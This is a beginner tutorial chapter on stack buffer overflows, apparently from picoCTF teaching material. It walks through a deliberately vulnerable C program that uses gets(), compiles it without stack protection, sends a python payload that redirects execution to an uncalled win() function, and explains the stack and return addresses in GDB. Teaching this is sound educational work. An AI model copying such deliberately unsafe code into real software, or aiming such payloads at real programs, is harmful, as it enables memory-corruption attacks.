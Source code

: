 
== Binary Exploitation

Get ready for binary exploitation. We use C to explain binary exploitation because it is a language very prone to have vulnerabilities, however, other languages have similar vulnerabilities.

=== A hack example!

A hack is not necessarily a cyberattack. It is just a clever way to do something, in our context, on a computer. For example, how would you make a program to print the smallest of two numbers without using an if statement? This sounds complicated when you first hear it, but look at the following bit hack! Make a small program in C copying this code:


[source, c]
#include <stdio.h>
int main(int argc, char **argv)
{
    int x=9;
    int y=5;
    int result=y^((x^y)&-(x<y));
    printf("this is the smallest number %d \n", result);
    return 0;
}

That was fantastic! What is happening here? Keep in mind the results of the following operations:

[source, c]
AND
1 & 0 = 0
0 & 0 = 0
1 & 1 = 1
0 & 1 = 0

[source, c]
XOR
1 ^ 0 = 1
0 ^ 0 = 0
1 ^ 1 = 0
0 ^ 1 = 1

Now, we have y=5, x=9.Let’s analyze each part of:


y ^ ( ( x ^ y ) & - ( x < y ) )

In the part highlighted in bold:


y ^ ( ( x ^ y ) & - *( x < y )* )

x < y is false, in c false is represented as a 0, that in a byte would look like this: 00000000

-0, is 0, so it keeps being 00000000

So, -*( x < y )* is 0. So far we would have

y ^ ( ( x ^ y ) & *0* )

Now

y ^ ( *(x^y)* & 0 )

*( x ^ y )* & 0 is 0 , because any value & 0, is still 0

So we get to

y ^ ( *0* )

This is simply y ^ 0 , when you take any value and do XOR with zero, it is like doing nothing!

So we get to *y* which is the smallest number (cool!!!!!!)

But what happens if the values of x and y are swapped, surely it will not still
print the smallest number? Swap the values in your code, compile and run it
again to see what happens!

That was amazing. That is a beautiful hack! It is actually called a bithack! In a computer, this operation executes much faster than an "if" statement. In most of the programs you don't need to execute an operation that fast to comply with the functionality you need, but in some cases that is needed.

Let's say that a hack could be simply a clever thing. Now, what is an exploit?

It is an attack on a computer program. If a computer program has a vulnerability, a hacker can take advantage of such a vulnerability to make the program do something different from the original purpose of the program. Taking advantage of a vulnerability successfully, it is called an exploit.

=== Stack overflow attack

By this point you should already know how to use the terminal, compile programs and have some understanding of C programming. Create the following program in the shell server, and name it vuln1.c:

[source, c]
#include <stdio.h>
#define BUFSIZE 4
void win()
{
    puts("If I am printed, I was hacked! because the program never called me!");
}
void vuln()
{
    puts("Input a string and it will be printed back!");
    char buf[BUFSIZE];
    gets(buf);
    puts(buf);
    fflush(stdout);
}
int main(int argc, char **argv)
{
    vuln();
    return 0;
}

You can see that the function win() is never called in the program. Therefore, the message that it prints should never be printed. right?

Compile the program using:

gcc vuln1.c -o vuln1 -fno-stack-protector -no-pie

Now run the program using:

&#46;/vuln1

You can input a string, and it will print it back. For instance, if you input "HelloPicoCTF", it should show:

Input a string and it will be printed back!

[source, c]
HelloPicoCTF
HelloPicoCTF

The program did what it was written for. Now, we are going to send a particular string to the program using python. You can run a single line of python in the command using the flag -c, and enclosing the line of code between single quotes. In the terminal you can pass the output of one command as the input to other command using the pipe, which is this character "|". In the following command we are printing something in python, and passing that to the C program we just compiled.

[source, python]
python3 -c 'print("hello world!")' |./v1

You should see "hello world!" printed back to the terminal right after the command. Note that in python you can  repeat the same character if you multiply it by a number, so 128*"A" is simply a string composed by 128 "A" repeated. For example if you run:

[source, python]
python3 -c 'print(10*"A")'

You should see the output:

[source, python]
AAAAAAAAAA

Now we are going to send a string that is composed by 128 characters repeated, concatenated to some bytes.

[source, python]
python3 -c 'print(128*"A"+"\x20\xe0\xff\xff\xff\x7f\x00\x00\xb7\x05\x40\x00")' |./v1

As result you will see:

[source, text]
If I am printed, I was hacked! because the program never called me!
Segmentation fault (core dumped)

What just happened? We simply sent a string, and a function that is never called in the program was called… We can send some particular input to the program to break it and make it do something that we want. That "particular input" you send to a program in the security jargon is called the "*payload*".

You just hacked a very simple binary. But... what happened on the inside? Why?  A very rough explanation, is that when you call a function, the computer needs to know how to come back to continue executing the code that called it after the function finishes its execution. The address of the piece of code that you should continue on after the function call (you do not see this in the source code), is called the return address. Since the program is not checking the boundaries of the input in the C program we made, you can overwrite the place in which the return address is stored! Let’s understand that better so you can manipulate similar exploits at your will.

=== What you need to know for a binary exploit

The famous Stack Overflow is a type of Buffer Overflow, an anomaly that overwrites a memory sector where it should not. It causes security problems by opening doors for malicious actions to be executed. To understand it, it is necessary to have an idea of how the memory of a computer works.

==== Memory 

RAM means "random access memory". It is called Random Access because you can access any part of it directly, without having to pass first for other regions, as it was necessary at some point in history. For example, computers used to have a magnetic tape in which an item of data could only be accessed by starting from the beginning of the tape and finding an address sequentially. In a RAM we can go to any part of it immediately!

Conceptually, a RAM is a grid with slots that can contain data. Let's imagine we have a RAM of only 5 slots. We could name each slot by a number, starting at 0, so it would look like this:


[.text-center]
.Imagined memory
image::images/4image36.png[image,width=198,height=222]


Now, if we want to put the word "HELLO" in our imaginary memory, we could put each character of "HELLO" in each slot, like this:

[.text-center]
.Imagined memory containing 'HELLO'
image::images/4image37.png[image,width=198,height=222]

The numbers we used to identify each slot of the memory are called addresses. If we ask: what character is in the address 1? The answer would be the character ‘E’. A real memory from a computer nowadays can have billions of addresses. Normally, addresses are shown in hexadecimal. For example, the address "255" would normally be shown as "0xFF".

In a program, the memory is used in a certain way to be able to do all that the program can do, and the program itself is present in memory when it is being executed. The memory is organized in the following sections:

When we compile a C source code, this is converted to machine code also known as binary. When a program is run, this machine code is placed in the code section. The code section holds only machine code, not the source code we know from C for example. The machine code is a set of instructions that the processor of a computer can understand. The computer will execute the instructions sequentially and while doing that will access other parts of memory to read data and output results.

A program has several sections, but for now, let's keep in mind the following three sections:

* Data section
* Heap
* Stack

In the data section, static and global variables are placed. This variables always exist when the program is being run, in contrast to local variables that disappear when a function finishes and returns the result.

In the heap is placed the memory allocated dynamically. For example, when you use malloc in C to allocate a buffer, that buffer is allocated on the heap. It is called dynamic allocation because the program allocates memory when is already running and executing the particular instruction for malloc. In the code you write you can also decide to deallocate a buffer of memory that you previously allocated. So, it is called dynamic because the programmer can allocate it and deallocate a chunk of memory of a desired size.

In the Stack segment, are placed the local variables, function parameters and return addresses. What is a return address? When we call a function, the address of the next instruction has to be stored somewhere so the program knows where to comeback after the function is finished. We call this address the "return address". A function can be called in different parts of a program, so this return address will be different depending on where the program calls the function.

=== Example of Execution of a program 

The execution of a program and its memory is controlled by processor registers, usually called simply registers. These are a very small and fast kind of memory that is attached to the processor. A register can store 4 or 8 bytes, depending on the processor. A processor only has a few registers. Depending on the kind of processor, the registers might differ. But we will take a look at the ones that are generic to most processors and will let us understand later the most common binary exploits.

To see a real example in action we can use GDB, a software that allows us to see the execution of each part of a programs and its memory step by step. This kind of software is called a debugger. When a binary program is running and we debug it, we can see in detail what the program is doing in memory by analyzing the *Assembly*. What is the Assembly? It is a low level language that can be used to show what each instruction from the machine code does. GDB can generate assembly from the machine code in memory while we are debugging the program so we can easily see what the machine code is doing.

==== GDB, Assembly and machine code

In the shell server, GDB is already installed, so you can run

[source, text]
gdb ./vuln1

You should see something like this:

[source, text]
GNU gdb (Ubuntu 8.1-0ubuntu3) 8.1.0.20180409-git
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law. Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from vuln1...(no debugging symbols found)...done.
(gdb)

Now, input "run" and press enter. Remember to press enter after using a command. The program "vuln1" will be executed, so you can enter any string and it will print it back, as it normally does the program "vuln1". You should see something like this if the string you input is "HelloPicoCTF":

[source, text]
(gdb) run
Starting program: /vuln1
Input a string and it will be printed back!
HelloPicoCTF
HelloPicoCTF
[Inferior 1 (process 95000) exited normally]
(gdb)

If you input "r" instead of "run", it will do the same because "r" is the GDB abbreviation for "run". If you do the experiment you should see  the same:

[source, text]
(gdb) r
Starting program: /vuln1
Input a string and it will be printed back!
HelloPicoCTF
HelloPicoCTF
[Inferior 1 (process 95000) exited normally]
(gdb)

To exit from GDB, you can input "quit" and press enter. Also, you could input only "q" and it will quit too. In several GDB commands, you can also input the first character of the command, and GDB will understand.

Now, open GDB again to debug "vuln1" with the same command we used previously:

[source, text]
gdb ./vuln1

But now, before running it using "run", we want to stop at the beginning of the function "vuln()". To do this, you can set a breakpoint at vuln(). Setting a breakpoint, simply means that the execution of the program will pause in the instruction you set the breakpoint. By running "break vuln" or "b vuln", a breakpoint will be set at the beginning of vuln. We will see this:

[source, text]
(gdb) b vuln
Breakpoint 1 at 0x4005ce

IMPORTANT: the addresses you see might be different, that is ok.

What does it mean "Breakpoint 1 at 0x4005ce" ? Do you remember that there is a segment of the memory in which the machine code is placed? In the memory address "0x4005ce" the machine code of "vuln()" begins. Input "r" to start the execution of the program and you will see:

[source, text]
(gdb) r
Starting program: /home/samuel/Desktop/problems/vuln1
Breakpoint 1, 0x00000000004005ce in vuln ()
(gdb)

"Breakpoint 1, 0x00000000004005ce in vuln ()" means that the first break point we have set, was established at address "0x00000000004005c", which is the same address as "0x4005c"; An address is a number in this case, so zeros at the left cause no effect. Note that in other cases, zeros at the left can have an effect if what we are reading is not being interpreted as a number.

===== Processor registers

A program is made up of several instructions that are executed sequentially. The processor of the computer has an integrated and very small memory different from RAM, called the "registers". A processor only has a few registers. Each register can hold only 8 bytes in a 64 bit processor, and 4 bytes in a 32 bit processor. A 32 bit program can run on a 64 bit processor, but 64 bit program cannot run on a 32 bit processor. One of the registers is called the Instruction Pointer, abbreviated as IP, that keeps track of the part of the program that is currently being executed. In a 64 bit program, we can print the value of this register in GDB using "x $rip":

[source, text]
(gdb) x $rip
0x4005ce <vuln+4>: 0x80c48348
(gdb)

Note that the first part of the line shown is "0x4005ce", this is exactly where the breakpoint was placed, so the IP naturally has that value because we made the program pause there. Then we have "<vuln+4>", do you remember we said that by setting a breakpoint at a function it would pause at the beginning of the function? To be more precise, a breakpoint on a function is usually placed 4 bytes after the beginning of the machine code of what is considered the function. That’s why the "+4". Later we will understand why it’s done like this. The remaining part, "0x80c48348", is the actual content at the address "0x4005ce". That content is a part of the machine code of the "vuln()" function.

To show the whole machine code of the function, showing each instruction on each address and its machine code, we can run "disas /r":

 
[source, assembly]
(gdb) disas /r
Dump of assembler code for function vuln:
0x4005ca <+0>: 55    push %rbp
0x4005cb <+1>: 48 89 e5    mov %rsp,%rbp
=> 0x4005ce <+4>: 48 83 c4 80    add $0xffffffffffffff80,%rsp
0x4005d2 <+8>: 48 8d 3d 27 01 00 00    lea 0x127(%rip),%rdi
0x4005d9 <+15>: e8 c2 fe ff ff    callq 0x4004a0 <puts@plt>
0x4005de <+20>: 48 8d 45 80    lea -0x80(%rbp),%rax
0x4005e2 <+24>: 48 89 c7 mov    %rax,%rdi
0x4005e5 <+27>: b8 00 00 00 00    mov $0x0,%eax
0x4005ea <+32>: e8 c1 fe ff ff    callq 0x4004b0 <gets@plt>
0x4005ef <+37>: 48 8d 45 80    lea -0x80(%rbp),%rax
0x4005f3 <+41>: 48 89 c7    mov %rax,%rdi
0x4005f6 <+44>: e8 a5 fe ff ff    callq 0x4004a0 <puts@plt>
0x4005fb <+49>: 48 8b 05 3e 0a 20 00    mov 0x200a3e(%rip),%rax
0x400602 <+56>: 48 89 c7    mov %rax,%rdi
0x400605 <+59>: e8 b6 fe ff ff    callq 0x4004c0 <fflush@plt>
0x40060a <+64>: 90    nop
0x40060b <+65>: c9    leaveq
0x40060c <+66>: c3    retq
End of assembler dump.
(gdb)

Each line of what was just printed by GDB is organized in three parts. Let’s analyze the following line to introduced machine code and assembly:

0x400602 <+56>: 48 89 c7 mov %rax,%rdi

The left part is the address "0x400602 <+56>". After the address some spaces are shown, then in the middle we find the machine code, that in this case is "48 89 c7". After some other spaces, we find the Assembly, which is "mov %rax,%rdi". Assembly is a low level language that can be directly mapped to the machine code. That’s why GDB can see some machine code in the memory and print for us the assembly that represents. A specific sequence of bytes in the machine code maps to an instruction of assembly. So, when a program is running and in memory is seen the sequence of bytes "48 89 c7" in the code segment, the computer knows that is some specific instruction and the processor has to do a specific action. Right now the intention is not to explain assembly in detail, but just for the sake of this example, know that "mov %rax,%rdi" moves the value of the register "rax" into the register "rdi". While the program is being executed by going forward in the code section of memory where the machine code is located, and it appears the sequence of bytes "48 89 c7", the processor knows that it has to copy the register "rax" into "rdi". Note that in the function, there are two parts in which appears the machine code "48 89 c7" and both have the same assembly.

Now, in this line:

*=>* 0x4005ce <+4>: 48 83 c4 80 add $0xffffffffffffff80,%rsp

do you see the arrow "=>" at the left? That indicates the instruction in which we are. Next to it there is an address, that as expected, has the same value as the Instruction Pointer. Then there is the <+4> which we already explained, followed by the machine code "48 83 c4 80" at the address 0x4005ce… Hold on, what is going on? A few paragraphs ago we said that the machine code at that address was " 0x 80 c4 83 48" when we printed the Instruction Pointer using "x $rip". But now we say it is "48 83 c4 80". If you look closely, these are the same bytes but backwards. Let’s take advantage of this opportunity to explain "little endian".

===== 19.2.1.3 Little endian

In most of the computers we use in everyday life, the numbers are interpreted as little endian. So when you read this from memory:

*48 83 c4 80*

It will be interpreted and shown as this:

*80 c4 83 48*

This is the case only for numbers. Addresses are numbers. In an attack when you want to overwrite an address, you have to consider this and input the bytes of the address backwards so they are interpreted in the correct manner. Why computers do this? There are some reasons and consequences. In fact there are also reasons for using "big endian" which is using the bytes without inverting them. One argument commonly given for supporting little endian, is that some operations are easier to do. For instance, if you have a number, let’s say 255 in decimal, in hexadecimal it would be is 0xff in hexadecimal. If the number is contained in a variable type that takes 4 bytes, for example an "int" in C, it would look like this in memory:

ff 00 00 00

Then, you want to cast it to a type that only takes two bytes, for example a "short" in C. In memory, you can leave the same value without having to move anything, and the "short" would look like this:

ff 00

Now, imagine that we were not using little endian. The type "int" would hold the number like this

00 00 00 ff

And the "short" like this:

00 ff

Note that we had to move the ff, which originally was on the fourth byte, and now it is in the second byte.

In summary, what you should remember for binary exploits, is that if you want to write a number into memory, you have to write its bytes backwards. Also, remember that this is only for numbers. In a hypothetical situation if you want to place in memory the string "HELLO", you can put it in its original order.

In GDB is possible to show a chunk of memory at a specific location using a command such as "x/16xw 0x4005da". This will print 16 words after the address 0x4005da. A word in a 64 bit processor, has 8 bytes, so that command is going to print 64 bytes. Run the command yourself! You should see something like this:

[source, assembly]
(gdb) x/16xw 0x4005ce
0x4005ce <vuln+4>: 0x80c48348 0x273d8d48 0xe8000001 0xfffffec2
0x4005de <vuln+20>: 0x80458d48 0xb8c78948 0x00000000 0xfffec1e8
0x4005ee <vuln+36>: 0x458d48ff 0xc7894880 0xfffea5e8 0x058b48ff
0x4005fe <vuln+52>: 0x00200a3e 0xe8c78948 0xfffffeb6 0x55c3c990
(gdb)

Note that GDB prints each group of 4 bytes as a numbers. Because of little endianess, each of those groups of 4 bytes, is reversed in memory. When using the previous command, no matter what is inside the memory, everything will be printed in reverse for each group of 4 bytes.

//BEGIN EDITING HERE!
===== Function call

When a function is called, the IP moves to wherever the code of the function is located. When the function is finished, the IP moves back to the next instruction to the function call. As we mentioned previously, the address of the next instruction has to be stored somewhere so the program knows where to comeback after the function is finished. We call this address the "return address". The return address is stored in the memory segment refered as the stack. How do we know in which part of the stack? There is a register called the Stack Pointer (SP), that points to the tip of the stack. When a function is called, the stack pointer moves to make room for the return address and new local variables. When the function is finished, the Stack Pointer moves to the original position prior to the function call, making the memory addresses in which the local variables from the function were located free again.

Imagine that we have a toy memory with only a few addresses. Remember that the SP is the Stack Pointer, and the Stack is a region of memory, in this case colored in yellow. Suppose that we have created no local variables or anything on the stack. The stack would look like this:


[.text-center]
.Stack
image::images/6image1.png[image,width=198,height=222]
		

Then we create a local variable, using something like:

[source, c]
int var=4;

After that is executed, the stack would look like in the following image, because by creating a variable we push it into the stack (in this example we are using “<=” as a simple arrow):

[.text-center]
.Stack after pushing 4
image::images/6image2.png[image,width=198,height=222]

Note that when we push a variable into the stack, we subtract one address to the SP, so it points to the new top of the stack. In this case the new SP value will be 16, which means is pointing to the address 16. If we create another local variable like this:

[source, c]
int var=5;

The stack would look like this:

[.text-center]
.Stack after pushing 4 and 5
image::images/6image3.png[image,width=198,height=222] 

And the SP would be equal to 15.

In real life, on a 32 bit Intel architecture, each address contains four bytes. Integers are stored in little endian, and the addresses would have bigger values on a running program because the stack is placed on higher addresses. A piece of the stack that created two integer with values 5 and 4, could look like this (remember that address and memory are usually represented in hex): 

[.text-center]
.More realistic Stack after pushing 4 and 5
image::images/6image4.png[image,width=198,height=222] 
 
Let’s go now to real life on our 64 bit program.

In GDB, set a breakpoint in the function "main" using "b main":

[source, text]
(gdb) b main

And run the program again using "r"

[source, text]
(gdb) r

The program being debugged has been started already.

[source, text]
Start it from the beginning? (y or n) y
Starting program: /vuln1
Breakpoint 2, 0x0000000000400611 in main ()
(gdb)

To show the assembly of the current function in where we are, which is "main", use "disas":

[source, text]
(gdb) disas
    Dump of assembler code for function main:
    0x000000000040060d <+0>: push %rbp
    0x000000000040060e <+1>: mov %rsp,%rbp
 => 0x0000000000400611 <+4>: sub $0x10,%rsp
    0x0000000000400615 <+8>: mov %edi,-0x4(%rbp)
    0x0000000000400618 <+11>: mov %rsi,-0x10(%rbp)
    0x000000000040061c <+15>: mov $0x0,%eax
    0x0000000000400621 <+20>: callq 0x4005ca <vuln>
    0x0000000000400626 <+25>: mov $0x0,%eax
    0x000000000040062b <+30>: leaveq
    0x000000000040062c <+31>: retq
End of assembler dump.

Even if you don’t know assembly, if you look through it, you might guess that "callq 0x4005ca <vuln>" is the function call to "vuln". We will go to that instruction in the debugger. To advance one instruction in GDB we can use "si". Try it, and use "disas" again to see where we are now. You should see something like this:

[source, text]
(gdb) si
    0x0000000000400615 in main ()
    (gdb) disas
    Dump of assembler code for function main:
    0x000000000040060d <+0>: push %rbp
    0x000000000040060e <+1>: mov %rsp,%rbp
    0x0000000000400611 <+4>: sub $0x10,%rsp
 => 0x0000000000400615 <+8>: mov %edi,-0x4(%rbp)
    0x0000000000400618 <+11>: mov %rsi,-0x10(%rbp)
    0x000000000040061c <+15>: mov $0x0,%eax
    0x0000000000400621 <+20>: callq 0x4005ca <vuln>
    0x0000000000400626 <+25>: mov $0x0,%eax
    0x000000000040062b <+30>: leaveq
    0x000000000040062c <+31>: retq
    End of assembler

We could use "si" three times more to get to the instruction in which the function call is made. But this strategy might not be good if we are far away from the function call. Instead, we can set a breakpoint on the memory address of the function call that we see is "0x0000000000400621". To set a breakpoint on a memory address, we also use "b", but we put an asterisk previous to the address like this "b *0x0000000000400621", after pressing enter you should see something like:

[source, text]
(gdb) b *0x0000000000400621
Breakpoint 3 at 0x400621
(gdb)

Now, use "continue" or "c" to continue to the breakpoint:

[source, text]
(gdb) c
Continuing.
Breakpoint 3, 0x0000000000400621 in main ()
(gdb)

Now, verify that we actually get to where we wanted using "disas":

[source, text]
(gdb) disas
    Dump of assembler code for function main:
    0x000000000040060d <+0>: push %rbp
    0x000000000040060e <+1>: mov %rsp,%rbp
    0x0000000000400611 <+4>: sub $0x10,%rsp
    0x0000000000400615 <+8>: mov %edi,-0x4(%rbp)
    0x0000000000400618 <+11>: mov %rsi,-0x10(%rbp)
    0x000000000040061c <+15>: mov $0x0,%eax
 => 0x0000000000400621 <+20>: callq 0x4005ca <vuln>
    0x0000000000400626 <+25>: mov $0x0,%eax
    0x000000000040062b <+30>: leaveq
    0x000000000040062c <+31>: retq
    End of assembler dump.
    (gdb)

At this point, the program is about to execute the function call to "vuln()". Remember that the return address is the next instruction to the function call. Note that If it was the same as the function call, it would return and call the function again and get into an infinite loop

In this case, the return address is "0x0000000000400626", remember this address. If we check the Stack Pointer (SP) right now using "x $rsp" we would see that it points to an address that does not contain the return address yet:


[source, text]
(gdb) x $rsp
0x7fffffffe010: 0xffffe108

If we advance one instruction using "si", we would suddenly be in the first instruction of the function "vuln()":

[source, text]
(gdb) si
0x00000000004005ca in vuln ()
(gdb) disas
Dump of assembler code for function vuln:
=>  0x00000000004005ca <+0>: push %rbp
    0x00000000004005cb <+1>: mov %rsp,%rbp
    0x00000000004005ce <+4>: add $0xffffffffffffff80,%rsp
    0x00000000004005d2 <+8>: lea 0x127(%rip),%rdi # 0x400700
    0x00000000004005d9 <+15>: callq 0x4004a0 <puts@plt>
    0x00000000004005de <+20>: lea -0x80(%rbp),%rax
    0x00000000004005e2 <+24>: mov %rax,%rdi
    0x00000000004005e5 <+27>: mov $0x0,%eax
    0x00000000004005ea <+32>: callq 0x4004b0 <gets@plt>
    0x00000000004005ef <+37>: lea -0x80(%rbp),%rax
    0x00000000004005f3 <+41>: mov %rax,%rdi
    0x00000000004005f6 <+44>: callq 0x4004a0 <puts@plt>
    0x00000000004005fb <+49>: mov 0x200a3e(%rip),%rax
    0x0000000000400602 <+56>: mov %rax,%rdi
    0x0000000000400605 <+59>: callq 0x4004c0 <fflush@plt>
    0x000000000040060a <+64>: nop
    0x000000000040060b <+65>: leaveq
    0x000000000040060c <+66>: retq
    End of

And if we check the SP again:

[source, text]
(gdb) x $rsp
0x7fffffffe008: 0x00400626
(gdb)

Do you remember the return address was "0x0000000000400626"? We can see that the SP points to the address "0x7fffffffe008", and that address contains the return address!

The whole idea of the attack, is to modify the return address, to return at another place. In our attack example at the beginning, we modify it so it returned to the function "win()".

The function gets() in C, simply copies any user input and puts all that in memory, so we simply need to overwrite the return address. As a programmer, never use gets() in C, you would introduce a vulnerability in your program that is very easy to exploit!
